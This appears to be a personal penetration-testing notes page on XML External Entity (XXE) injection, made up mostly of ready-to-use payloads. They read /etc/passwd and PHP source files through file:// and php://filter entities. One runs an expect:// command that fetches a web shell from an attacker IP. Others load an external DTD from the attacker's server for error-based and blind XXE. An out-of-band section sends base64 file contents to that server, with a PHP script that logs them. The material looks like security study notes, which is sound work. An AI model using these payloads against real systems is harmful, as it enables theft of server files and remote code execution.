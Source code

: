 ```yaml
---
{"dg-publish":true,"permalink":"/xml-external-entity-injection/"}
---
```


- [[XXE Tools\|XXE Tools]]

- [XML External Entity (XXE) Processing \| OWASP Foundation](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- [What is XXE (XML external entity) injection? Tutorial & Examples \| Web Security Academy](https://portswigger.net/web-security/xxe)

Many web applications process XML data as part of their functionality. Suppose a web application utilizes outdated XML libraries to parse and process XML input data from the front-end user. In that case, it may be possible to send malicious XML data to disclose local files stored on the back-end server. These files may be configuration files that may contain sensitive information like passwords or even the source code of the web application, which would enable us to perform a Whitebox Penetration Test on the web application to identify more vulnerabilities. XXE attacks can even be leveraged to steal the hosting server's credentials, which would compromise the entire server and allow for remote code execution.

## [[Path traversal\|LFI]]

### 1

```xml
<!DOCTYPE name [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
<root>
	<name> &company; </name>
	<details>asd</details>
	<date>1111-11-11</date>
</root>
```

### 2

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
<root>
	<name>Test</name>
	<tel>123456789</tel>
	<email>
		&company;
	</email>
	<message>
		10.129.234.170
	</message>
</root>
```
```xml
```

For, [[PHP]] web application 

- PHP filters to encode PHP source files
	- such that they would not break the XML format when referenced

>PHP provides wrapper filters that allow us to [[base64]] encode certain resources 'including files', in which case the final base64 output should not break the XML format. To do so, instead of using `file://` as our reference, we will use PHP's `php://filter/` wrapper. With this filter, we can specify the `convert.base64-encode` encoder as our filter, and then add an input resource (e.g. `resource=index.php`), as follows:


```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## [[Remote Code Execution|RCE]] with [[XML External Entity Injection|XXE Injection]]

Need to have expect installed in [[PHP]]
- Notice the usage of [[Input Field Separators|IFS]]
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'10.10.15.11/shell.php'">
]>
```

## Advanced Exfiltration with [[CDATA]]


- We can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`)
- The XML parser would consider this part raw data
	- May contain any type of data
	- Including any special characters.

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

- If we reference the `&joined;` entity it should contain our escaped data
- However, **this will not work since XML prevents joining internal and external entities**`


### XML Parameter Entities

- [[Path traversal|LFI]]
- To bypass this limitation we can utilize `XML Parameter Entities`
	- A special type of entity that starts with a `%` character and can only be used within the [[XML Document Type Definition|DTD]]
- If we reference them from an external source (e.g. our own server) then all of them would be considered as external and can be joined

```xml
<!ENTITY joined "%begin;%file;%end;">
```
```shell-session
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> 
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> 
  %xxe;
]>
<email>&joined;</email> 
```

## Error Based XXE

- [What is a blind XXE attack? Tutorial & Examples \| Web Security Academy](https://portswigger.net/web-security/xxe/blind)

- Another situation we may find ourselves in is one where the web **application might not write any output**
- So we cannot **control** any of the XML input entities to write its content
- We would be `blind` to the XML output and so would not be able to retrieve the file content using our usual methods.

- If the web application displays runtime errors (e.g. PHP errors) and does not have proper exception handling for the XML input
- Then we can use this flaw to read the output of the XXE exploit

### Blind error based XXE

- If the web application neither writes XML output nor displays any errors

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

## Out of band Data exfiltration

### File: xxe.dtd


```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

### File: index.php
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

### xml Request

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```